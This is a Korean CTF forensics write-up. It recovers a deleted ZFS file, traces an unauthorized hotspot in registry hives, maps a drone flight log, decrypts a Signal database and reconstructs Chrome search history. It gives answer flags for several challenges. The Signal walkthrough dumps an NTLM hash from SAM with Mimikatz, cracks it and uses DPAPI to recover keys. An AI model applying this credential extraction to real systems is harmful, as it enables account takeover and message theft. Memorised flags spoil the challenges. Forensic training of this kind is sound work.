## 목차

- [목차](#목차)
- [Flag 대신 Flax?](#Flag_대신_Flax?)
- [Insiders_Shadow](#Insiders_Shadow)
- [Pick_Me_!](#Pick_Me_!)
- [Stealth_Signal](#Stealth_Signal)
- [Can_you_recovery_SQLite?-?](#Can_you_recovery_SQLite?-?)
- [Missing_Key](#Missing_Key)
- [내_파일이... 안돼...](#내_파일이...안돼...)
- [HERE I AM](#HERE I AM)

## Flag_대신_Flax?

해당 문제는 ZFS 파일시스템의 구조와 기능을 활용하여 삭제된FLAG 파일을 복원하는 문제입니다.
ZFS는 Copy-on-Write(COW) 방식을 채택하고 있어, 파일을 삭제하더라도 기존 데이터 블록이 즉시 제거되지 않고 파일시스템 내에 남아 있게 됩니다. 이러한 특성 덕분에 ZFS는 자체적으로 스냅샷(Snapshot) 기능을 지원합니다.

문제에 제공된 img파일은 ZFS으로 ubuntu 등 리눅스 시스템ZFS 패키지 설치 후 zpool import로 마운트할 수 있습니다.


파일시스템 내부에는 flag파일이 1개 존재하고 flag의 내용은 다음과 같습니다.


ZFS는 CoW(Copy-on-Write) 방식을 채택하고 있어, 데이터가 변경될 때 기존 블록을 덮어쓰지 않고 새로운 블록에 기록한 후 메타데이터를 갱신하는 구조를 가지고 있다. 즉 파일을 삭제하더라도 파일시스템 내에서의 실제 데이터는 삭제되지 않는다. 이러한 특성 덕분에 ZFS는 파일이나 블록의 이전 상태를 유지할 수 있으며, 이를 기반으로 자체적인 스냅샷(Snapshot) 기능을 제공한다.

또한 ZFS는 압축 알고리즘을 지원하며 해당 문제의 이미지는 gzip-9의 압축 알고리즘을 이용하여 파일을 압축하고 있어, raw파일에서는 flag에 평문으로 접근할 수 없습니다. zdb는 ZFS 내부 메타데이터 구조를 로우 레벨에서 조사할 수 있는 도구입니다. 이를 이용하여ZFS의 내부 메타데이터 등을 살펴볼 수 있습니다.<br>


ZFS 내부에 hspace명의 스냅샷이 있는 것을 확인할 수 있습니다.


zfs clone ctf@hspace ctf/hspace 를 통해 삭제된 flag를 찾을 수 있습니다.


FLAG: HSPACE{z3774by73_fi13_5y573m_zz4n6}

## Insiders_Shadow

해당 문제는 Windows 레지스트리 분석을 통해 내부자의 비정상적인 네트워크 연결 활동을 추적하는 문제입니다.
Windows는 시스템에 연결된 모든 네트워크 정보를 레지스트리에 기록하며, 이 정보에는 네트워크 이름(SSID), 최초 연결 시간, 마지막 연결 시간 등의 메타데이터가 포함됩니다. 특히 SOFTWARE\Microsoft\Windows NT\CurrentVersion\NetworkList\Profiles 경로에는 Wi-Fi, 유선 네트워크, 모바일 핫스팟 등 시스템이 연결했던 모든 네트워크 프로필이 GUID 형태로 저장됩니다. 이러한 특성 덕분에 포렌식 조사자는 사용자가 언제, 어떤 네트워크에 연결했는지 추적할 수 있으며, 회사에서 승인되지 않은 외부 네트워크(개인 핫스팟, 공공 Wi-Fi 등) 사용 여부를 탐지할 수 있습니다. 

문제로는 하이브 파일 5개가 주어집니다.


이 문제는 김영수 직원이 비정상적인 네트워크 연결을 통해 데이터를 전송했는지 조사하는 것으로, 레지스트리에서 네트워크 연결 기록을 분석해야 한다. REGA로 주어진 하이브 파일을 열면 다음과 같이 확인할 수 있습니다.


네트워트 연결 기록은 다음 레지스트리에 저장됩니다.
| 레지스트리 경로 | `SOFTWARE\Microsoft\Windows NT\CurrentVersion\NetworkList\Profiles` |
|------|-----|

다음 경로로 이동하여 확인하면, 3개의 네트워크 연결 기록을 확인할 수 있으며, 각각 네트워크 이름, 최초 연결 시간, 마지막 연결 시각들을 확인할 수 있습니다.


사내에서 허용된 네트워크는 "forensics.lab"으로, 해당 네트워크는 “2025년 5월 9일 금요일 16:24:41”에 최초 연결되어 “2025년 9월 23일 화요일 23:02:59” 최근까지 정상적으로 이용되고 있었습니다.


네트워크 연결 기록을 분석한 결과, "Eden_iPhone"이라는 외부 네트워크 연결을 발견했습니다. 해당 네트워크는 2025년 9월 23일 22:35:04에 최초 연결된 것을 확인할 수 있으며, 이는 회사 내부에서 개인 iPhone 핫스팟으로 연결한 기록으로, 승인되지 않은 비정상적인 네트워크 연결에 해당합니다.


## Pick_Me_!

해당 문제는 드론 비행 로그 분석을 통해 실제 비행 경로와 최종 착륙 위치를 추적하는 문제입니다.
드론은 비행 중 GPS 좌표, 고도, 카메라 설정 등의 메타데이터를 자막 파일(.SRT) 형식으로 기록합니다. DJI 드론의 경우 촬영 영상과 함께 자동으로 생성되는 이 파일에는 프레임마다 위도(latitude), 경도(longitude), 상대고도(rel_alt), 절대고도(abs_alt) 등의 정보가 타임스탬프와 함께 저장됩니다.

해당 문제에서 주어진 파일을을 분석하면, 아래와 같은 로그가 5261개 있는 것을 알 수 있습니다.
```
1
00:00:00,000 --> 00:00:00,033
<font size="28">FrameCnt: 1, DiffTime: 33ms
2025-08-05 13:44:25.675
[iso: 100] [shutter: 1/1600.0] [fnum: 1.7] [ev: 0.7] [color_md: default] [focal_len: 24.00] [latitude: 46.799288] [longitude: -122.275818] [rel_alt: 3.100 abs_alt: 332.705] [ct: 4790] </font>
```

이를 보면 latitude와 longitude를 통해 위치를 분석할 수 있을 것으로 보인다. 이를 파싱하여, OpenStreetMap에 표시하는 코드는 아래와 같습니다.
```python
import re
import folium

def parse_srt(filename):
    coords = []
    with open(filename, 'r', encoding='utf-8') as f:
        for line in f:
            lat = re.search(r'latitude:\s*([-\d.]+)', line)
            lon = re.search(r'longitude:\s*([-\d.]+)', line)
            if lat and lon:
                coords.append([float(lat.group(1)), float(lon.group(1))])
    return coords

coords = parse_srt('DJI_20250805134425_0065_D.SRT')

m = folium.Map(location=coords[0], zoom_start=15)
folium.PolyLine(coords, color='red', weight=3).add_to(m)
folium.Marker(coords[0], popup='Start', icon=folium.Icon(color='green')).add_to(m)
folium.Marker(coords[-1], popup='End', icon=folium.Icon(color='red')).add_to(m)

m.save('drone_map.html')
print(f"Map saved: drone_map.html ({len(coords)} points)")
```
해당 코드를 이용하여 분석하면, 아래 사진과 같은 지도를 확인할 수 있습니다. 또한 해당 지도를 통해 영재군은, 공원에서 드론을 조종했다는 것을 알 수 있습니다. 


마지막으로 착지 지역은, 마지막 로그인 5261번 로그를 통해 알 수 있으며 이는 아래와 같습니다.
```
5261
00:02:55,508 --> 00:02:55,541
<font size="28">FrameCnt: 5261, DiffTime: 33ms
2025-08-05 13:47:21.183
[iso: 160] [shutter: 1/1000.0] [fnum: 1.7] [ev: 0.7] [color_md: default] [focal_len: 24.00] [latitude: 46.799564] [longitude: -122.276379] [rel_alt: 4.000 abs_alt: 333.605] [ct: 5326] </font>
```

이를 구글 맵을 통해 검색하면, [해당 위치](https://www.google.com/maps?q=46.799564,-122.276379)와 같으며, 이는 아래의 그림과 같습니다.


답: hspace{46.799564_-122.276379_Washington}


## Stealth_Signal

본 문제는 Signal 메신저의 암호화된 SQLite 데이터베이스를 복호화하여 FLAG를 찾는 포렌식 문제입니다. Signal은 AES-256-GCM 방식으로 메시지를 암호화하므로 단순 접근으로는 복호화가 불가능합니다.
config.json의 encryptedKey와 Local State의 Master Key를 추출하고, Mimikatz로 사용자 정보(사용자명, NTLM 해시, SID)를 수집합니다. NTLM 해시를 크래킹하여 평문 비밀번호를 획득한 후, DPAPI 복호화를 통해 Master Key를 얻습니다. 이를 활용해 AES-256-GCM 복호화를 수행하여 SQLCipher DB의 최종 복호화 키를 생성합니다.
복호화된 DB의 messages 테이블에서 대화내역과 FLAG 일부를, edit_messages 테이블에서 수정된 메시지를 추적하여 나머지 FLAG를 획득합니다. Signal 암호화 메커니즘, DPAPI, AES-GCM, SQLCipher 분석 기술이 요구됩니다.

Signal 메신저는 보안을 위해 메시지를 AES-256-GCM 방식으로 암호화된 SQLite DB에 저장합니다. 단순 접근만으로는 복호화가 불가능하며, 아래의 과정을 통해 복호화를 진행합니다.

Signal DB 복호화에는 2개의 키 정보가 필요합니다.
| 이름 | 위치 |
|------|------|
|encryptedKey|config.json|
|Master Key| Local State|

config.json 분석은 아래와 같이 진행할 수 있으며, config.json에 위치된 encryptedKey는 아래 사진과 같습니다.


|encryptedKey 원본 값| 7631306b63f47c0fc677e5246764d4cf63dd59e674f5f37e11 c43f331c847869b64bd84324e5cfb60a06fcf3055afa956931471026c25c65dbae3d219a24ee6e3d067911157627427c1cc298db0a58fa7ad268136a48534b31c9a5b40656d9|
|--|--|

config.json 내부의 encryptedKey는 AES-GCM 형식으로 구성되어 있으며, 4가지 요소로 분
리됩니다.
|버전 정보|포맷 버전|763130|
|--------|---------|-------|
|IV|초기화벡터 (12바이트)|6b63f47c0fc677e5246764d4|
|Ciphertext| 암호화된 실제 데이터|cf63dd59e674f5f37e11c43f331c847869b64bd84324e5cfb60a06fcf3055afa956931471026c25c65dbae3d219a24ee6e3d067911157627427c1cc298db0a58|
|GCM Tag|무결성 검증용 태그 (16바이트)|fa7ad268136a48534b31c9a5b40656d9|

해당 정보를 확인 후, Local State에서 Master Key를 추출해야합니다 Local State에서 확인한 Master Key는 아래 사진과 같습니다.


|원본encryptedkey(base 인코딩)|RFBBUEkBAAAA0Iyd3wEV0RGMegDAT8KX6wEAAACebWN36zwyQYnr87r7znTIEAAAABIAAABDAGgAcgBvAG0AaQB1AG0AAAAQZgAAAAEA
ACAAAAB6E4VFsOiBoSTGq+EIkEbjTvzhoWX/sYbXoY4PJ8imPwAAAAAOgAAAAAIAACAAAAA0izlSru2ERlw7DxVnAxAzqx5cCzl671x83U/4KG9xrzAAAAD8UoakpjWAK5Ojbt6pa4xkDjh+18Dvz4IJzfx6GZRMH8+JJ0GZOPQdWF6/srRq5xVAAAAA2+/coTW/bcCn8OZCnGeaY6EwIglrgwOprEB89m9qUqrdnEPXvnySrZHp7IjKE4UhNzqzTDWTZAc8UUq0343P4g==|
|--|--|

encrypted_key 값은 위의 사진과 같이 Base64 인코딩되어 있으므로, 먼저 디코딩하여 바이너리 형태로 변환하고 저장합니다.
디코딩 후, 데이터는 ‘DPAPI’라는 5바이트 헤더로 시작합니다. 따라서 복호화 전 DPAPI 헤더를 제거해야 합니다. 


DPAPI 복호화를 위해서는 사용자 고유 정보가 필요합니다. 아래 단계에서 순차적으로 정보를 수집하고 활용합니다.
- 사용도구 : Mimikatz
사용자 이름과 NTLM 해시는 Mimikatz의 lsadump::sam 명령을 통해 얻을 수 있습니다.
```lsadump::sam /system:SYSTEM /sam:SAM```


|User|KANG|
|----|----|
|NTLM Hash|dfedd39da40315b7d0e40edf4ee546d2|
|SID|S-1-5-21-2981898709-1383331904-3076336691-1001|
NTLM 해시는 해당 계정의 로그인 비밀번호를 해시화한 값으로, NTLM 해시로부터 평문 비밀번호(로그인 패스워드)를 획득합니다.
|passwd|hwhack|
|----|------|

사용자 정보를 사용해 DPAPI로 암호화된 Master Key를 복호화합니다. 


|User|KANG|
|----|----|
|SID|S-1-5-21-2981898709-1383331904-3076336691-1001|
|passwd|hwhack|
|Master Key|da1c0d521dca2950769383dacf578d125727e4a89a9df4979dc2177eaf9e23bd2a9edd59f4ec141ba78cf8b516a164bb949e4fd2922bc157ac64fc1a2dc4043d|

이후 DPAPI Master Key 복호화를 진행해야합니다.
Local State 파일의 encrypted_key는 DPAPI로 암호화되어 있습니다. 앞서 얻은 Master Key를 사용하면, 최종적으로 DB 복호화에 필요한 hex 데이터(DATA) 를얻을 수 있습니다.
|DATA|80282eccd4e799cebd27a96a6e802d81ff8feda59f659b460783cc47cbb05c64|
|---|----|

최종 DB 복호화 키 획득을 위해서는 다음과 같이 진행해야합니다.
앞서 추출한 encryptedKey는 AES-256-GCM 형식으로 암호화되어 있으며, 이를 Master Key로 복호화하면 내부 데이터 키(DATA)를 획득할 수 있습니다. 이후 사용자 정보(User, SID, Password)와 함께 확보한 Master Key를 기반으로AES-256-GCM 복호화를 수행하여, SQLCipher DB를 열 수 있는 최종 복호화 키를 산출합니다.

|User|KANG|
|----|----|
|SID|S-1-5-21-2981898709-1383331904-3076336691-1001|
|passwd|hwhack|
|Master Key|da1c0d521dca2950769383dacf578d125727e4a89a9df4979dc2177eaf9e23bd2a9edd59f4ec141ba78cf8b516a164bb949e4fd2922bc157ac64fc1a2dc4043d|
|DATA|80282eccd4e799cebd27a96a6e802d81ff8feda59f659b460783cc47cbb05c64|

복호화키는 다음과 같습니다.
|DB 복호화 키| c5458a921e0b7bfbc7e96605b4ab036b64c9f74c68f3960151aae0d4f65dac23|
|---|---|

최종 AES 복호화 키를 SQLCipher 환경에 입력해 암호화된 DB를 정상적으로 열 수 있습니다.

플레그는 총 2개의 파트로 나뉘어 있습니다.
첫 부분은 사용자의 대화내역은 messages 테이블의 body 컬럼에 저장되어 있으며, fts_messages 테이블에서도 확인할 수 있습니다. 이를 통해 대화내역을 조회할 수 있으며, 2번째 플래그 조각을 확인 가능합니다.


두 번째 부분은 edit_messages 테이블에서는 메시지의 수정 여부를 확인할 수 있고, 수정된 메시지의 id를통해 messages 테이블의 json → body 컬럼에서 수정된 내용을 확인할 수 있습니다. 


## Can_you_recovery_SQLite?-?

본 문제는 Chrome 브라우저의 History 파일에서 Secure-Delete 방식으로 삭제된 검색 기록을 복원하는 문제입니다. Chrome은 SQLite의 Truncate 저널 모드를 사용하기 때문에, 일반적인 journal 파일 분석만으로는 삭제된 데이터를 복구할 수 없습니다. 따라서 NTFS 파일 시스템의 $LogFile을 분석하여, 삭제되기 전 History-journal 파일의 RunList 정보를
역추적하고, 이를 통해 비할당 영역에 남아 있는 데이터 페이지를 식별한다. 복원 대상은 keyword_search_terms 테이블이며, SQLite 구조를 이해하고 Page 단위 백업 방식, MFT Entry 구조, Redo/Undo 로그 파싱 등의 기술이 요구됩니다. 복원한 Page를 원본 History 파일에 덮어쓴 후, SQLite DB Browser를 통해 테이블을 확인하고 최종적으로 삭제 전 검색
기록(FLAG) 을 획득하는 문제입니다.

비밀번호 ‘DF_m@ster’로 암호화된 문제 파일(recovery.7z)을 압축 해제합니다. 이후, FTK Imager로 ‘C:\Users\korea\AppData\Local\Google
\Chrome\User Data\Default\History’ 파일을 추출합니다.


History 파일을 ‘SQLite for DB Browser’ 프로그램을 사용해 ‘keyword_search_terms’ 테이블 데이터가 존재하지 않음을 확인합니다.


‘keyword_search_terms’ 테이블 정보를 복원하기 위해 Chrome에서 ‘검색 기록 삭제’ 트랜잭션이 발생하기 이전의 ‘keyword_search_terms’ 테이블 Page로 복원합니다. 문제 풀이를 위한 History 복원을 위해서는 History 파일의 트랜잭션 백업 정보를 저장하는 ‘History-journal’ 파일을 활용해 복원할 수 있습니다. 때문에 FTK Imager로 ‘History-journal’ 파일을 추출합니다.


Chrome은 SQLite의 Journal 중 TRUNCATE 모드를 사용하기 때문에, 트랜잭션 커밋이 완료되면 History-journal 파일을 크기를 0x00으로 줄이는 특징이 존재하기 때문에 FTK Imager로 History-journal 파일을 추출하려 해도 결과가 무의미합니다. 결과적으로, 과거의 History-journal 파일에 할당 되었던 RunList를 $LogFile에서 역추적해 History-journal 파일을 우선적으로 복원한다. NTFS의 $LogFile은 $MFT 내부의 특정 Attribute 값을 업데이트 할 때, 예상치 못한 예외로 부터 데이터를 롤백하기 위해 업데이트하는 Attribute의 Offset 정보를 함께 기록합니다. 때문에, History-journal 파일의 RunList를 업데이트 할 때, $LogFile이 기록하는 위치 정보 값으로 역계산해 과거에 할당 되었던 RunList를 추적할 수 있습니다.

아래는 $LogFile의 레코드 구조체로, 0x30~47 까지의 영역의 값을 역으로 계산해 History-journal 파일의 RunList 값을 업데이트 할 때의 Record를 추적합니다.


0x30~0x47 영역의 값을 역계산하기 위해, FTK Imager로 $MFT의 시작 Cluster Number와 History-journal 파일의 MFT Entry Number를 확인합니다. 이후, $MFT에서 History-journal의 $DATA 시작 주소, RunList 의 시작 주소를 확인합니다. 순차적으로 Attribute Offset은 $DATA 속성의 시작 주소를 의미합니다. 해당 History-journal의 경우 0x180 위치를 갖고, Attribute Length는 $DATA 속성 내부에서 RunList 값이 존재하는 Offset을 의미합니다. RunList의 경우 0x40 위치를 갖습니다. Cluster Number는 해당 MFT Entry가 Cluster 내부에서 몇 번째 Sector에 존재하는지에 대한 정보입니다. 하나의 Cluster는 4개의 MFT Entry를 포함할 수 있기 때문에, 경우의 수는 0x00, 0x02, 0x04, 0x06이 있다. History-journal 파일의 경우, MFT Entry Number가 0x2E6E3이고 이를 8로 나눈 나머지 값인 0x06이 Cluster Number가 됩니다. 이때, 나눠진 몫인 0xB9B8은 VCN 값이 되고, VCN에 $MFT의 시작 Cluster Offset 정보인 0xC0000을 더한 값인 0x0CB9B8은 LCN 값이 된다. Page Size는 항상 0x02 값을 갖습니다.


계산된 "Attribute Offset | Attribute Length | Cluster Number | Page Size | VCN | LCN" 값을 연접하면, $LogFile이 History-journal 파일의 RunList 값을 업데이트할 때 기록되는 Attribute Offset 값이 됩니다. 아래는 각 정보의 값을 표로 정리한 결과입니다.
| 값 이름 | 값 |
|---------|--------|
| Attribute Offset | 0x0180 |
| Attribute Length | 0x40 |
| Cluster Number | 0x06 |
| Page Size | 0x02 |
| VCN | 0xB9B8 |
| LCN | 0x0CB9B8 |

결과적으로, $LogFile에서 "80 01 40 00 06 00 02 00 B8 B9 00 0000 00 00 00 B8 B9 0C 00 00 00 00 00" 값을 검색해, History-journal파일의 과거에 할당 되었던 RunList를 전부 역추적할 수 있습니다. 아래는 $LogFile에서 계산된 Hex 값을 찾아 8개의 Record가 검색 모습입니다.


검색된 모든 8개 Record의 Redo 값과 Undo 값을 분석해 과거에 할당 되었던 RunList를 추출합니다. 이후 추출된 모든 RunList를 Cluster Offset과 Length로 해석해 문제 이미지 파일의 Cluster 영역에 접근하여 파일 형태로 추출합니다. 아래는 해당 과정을 자동화한 코드입니다. 이때, $LogFile의 특성을 고려해 LSN을 기준으로 정렬해 Record 정보를 파싱합니다.
```python
```
파일 형태로 추출된 데이터 들은 전부 과거의 History-journal 파일로, 해당 파일 내부에서 Chrome의 ‘검색 기록 삭제’ 트랜잭션이 발생 하기 이전의 ‘keyword_search_terms’ 테이블로 복원합니다. ‘keyword_search_terms’ 테이블을 복원하기 위해서는 History 파일에서 ‘keyword_search_terms’ 테이블이 저장되는 Page Number를 우선적으로 확인해야합니다. ‘keyword_search_terms’ 테이블의 Page Number를 확인하기 위해 History 파일에서 ‘CREATE TABLE keyword_search_terms’를 검색해 바로 이전의 1 Byte 값을 확인합니다. 결과적으로, ‘keyword_search_terms’ 테이블이 저장되는 Page는 0x0F번째 Page임을 알 수 있습니다.
